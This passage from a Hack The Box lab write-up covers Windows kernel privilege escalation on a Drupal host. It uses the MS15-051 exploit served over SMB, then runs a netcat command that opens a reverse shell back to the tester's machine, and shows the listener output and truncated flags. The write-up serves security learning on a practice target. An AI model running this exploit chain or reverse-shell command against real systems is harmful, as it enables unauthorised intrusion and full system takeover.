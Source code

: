 

Immediately that points to a kernel exploit. I've done a few different
ways to enumerate for Windows kernel exploits in recent posts ([Devel
without MSF](/htb-devel.md#privesc-web--system), [Devel
with
MSF](/htb-devel.md#privesc-alternative-with-metasploit),
[Granny with MSF](/htb-granny.md#privesc-to-system)), so I
won't spend too much time enumerating here.

I like [this](https://github.com/51x/WHP) reference for finding Windows
Exploits. MS15-051 jumps out as one I've used successfully before.

### MS15-051

I'll grab it from here:
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

I'll use `smbserver` to share the 64-bit version. Then I'll run:



    PS C:\inetpub\drupal-7.54> \\10.10.14.14\share\ms15-051x64.exe "whoami"
    [#] ms15-051 fixed by zcgonvh
    [!] process with pid: 3012 created.
    ==============================
    nt authority\system



I can use it to get a shell as well:



    C:\inetpub\drupal-7.54>\\10.10.14.14\share\ms15-051x64.exe "\\10.10.14.14\share\nc64.exe -e cmd.exe 10.10.14.14 443"
    [#] ms15-051 fixed by zcgonvh
    [!] process with pid: 1612 created.
    ==============================





    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.9.
    Ncat: Connection from 10.10.10.9:50875.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\inetpub\drupal-7.54>whoami
    nt authority\system



Now I can get the flags:



    C:\Users>type dimitris\desktop\user.txt
    ba22fde1...

    C:\Users>type administrator\desktop\root.txt.txt
    4bf12b96...







